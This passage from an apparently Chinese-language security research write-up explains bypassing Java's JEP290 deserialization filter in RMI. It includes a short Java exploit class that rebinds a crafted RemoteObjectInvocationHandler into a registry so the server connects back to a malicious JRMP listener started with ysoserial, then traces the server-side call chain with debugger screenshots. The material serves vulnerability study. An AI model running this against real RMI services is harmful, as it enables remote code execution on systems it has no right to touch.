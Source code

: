 ```java
package top.longlone.RMIStudy;

import sun.misc.BASE64Decoder;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.*;
import java.rmi.AlreadyBoundException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class vuln {
    public static void main(String[] args) throws IOException, ClassNotFoundException, AlreadyBoundException {
        Registry registry = LocateRegistry.getRegistry(2099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
        // lookup方法也可以，但需要手动模拟lookup方法的流程
        registry.rebind("pwn", handler);

    }
}
```
调试过程如下:
用ysoserial启动JRMPClient，然后调试RMIRegistry，在`RemoteObject#readObject`方法中下断点，最后再运行vuln触发断点。
![](https://gitee.com/guuest/images/raw/master/img/20211119192153.png)
跟进readExternal方法:
![](https://gitee.com/guuest/images/raw/master/img/20211119192454.png)
在这个方法中会读出序列化流中的 host 和端口信息，然后重新封装成一个 LiveRef 对象，将其存储到当前的 ConnectionInputStream 上，调用 saveRef 方法:
![](https://gitee.com/guuest/images/raw/master/img/20211119192545.png)
一直跟进到RegistryImpl_Skel的oldDispatch方法:
![](https://gitee.com/guuest/images/raw/master/img/20211119192746.png)
在服务端触发了反序列化之后，来到 `StreamRemoteCall#releaseInputStream` 方法中，在这里会调用 `ConnectionInputStream#registerRefs` 方法:
![](https://gitee.com/guuest/images/raw/master/img/20211119193033.png)
这里又会调用DGCClient的registerRefs方法:
![](https://gitee.com/guuest/images/raw/master/img/20211119193137.png)
最终由 DGCClient 向恶意的 JRMP 注册中心发起 lookup 连接:
![](https://gitee.com/guuest/images/raw/master/img/20211119193200.png)
这里的攻击方法看起来与上面的**注册中心攻击客户端**有点类似，但是这里用的不是直接反序列化而是通过往注册中心rebind恶意对象触发反序列化造成的，其最终目的都是为了**让服务端变为JRMP客户端向我们恶意的JRMPRegistry发起JRMP请求**。
## 总结
所以 Bypass JEP290 的关键在于：**通过反序列化让服务端变为JRMP客户端向我们恶意的JRMPRegistry发起 JRMP 请求。**


## Bypass 8u231~8u240
使用了UnicastRemoteObject，后补

## 参考文章
1. https://paper.seebug.org/1194
2. https://xz.aliyun.com/t/8247